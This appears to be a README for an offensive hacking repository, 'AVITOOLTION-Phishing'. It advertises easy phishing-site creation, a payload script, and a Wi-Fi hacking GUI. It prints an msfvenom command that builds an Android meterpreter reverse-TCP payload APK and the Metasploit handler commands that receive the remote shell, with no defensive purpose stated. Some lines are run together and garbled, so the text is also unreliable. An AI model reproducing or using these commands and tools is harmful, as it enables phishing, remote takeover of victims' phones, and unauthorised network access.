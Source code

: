 # AVITOOLTION-Phishing
"Hello my friends, this tool will help you design a phishing site easily without needing much understanding or programming. There are also many features to discover. You should download the tool, and as you do, I thank you very much.

# Payload PDF.py #
" msfvenom -p android/meterpreter/reverse_tcp LHOST=your_IP LPORT=your_PORT -o payload.apk "
" Payload PDF.py "
" use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST your_IPOpen-XAI.py
set LPORT your_PORT
exploit "

# Open-XAI.py #

" python3 chat_ai.py "

# Phishing.py #

" python3 Phishing.py "

# Tkinter-haking-wifi.py #

arabic :
هذا الملف الرمحي لبايثون الذي يحتوي على واجهة جيدة لتسهيل عملية الاختراق للوايفاي على المستعمل،وشكرا
English :
This is a Python spear file that contains a good interface to facilitate the process of hacking Wi-Fi for the user. Thank you.
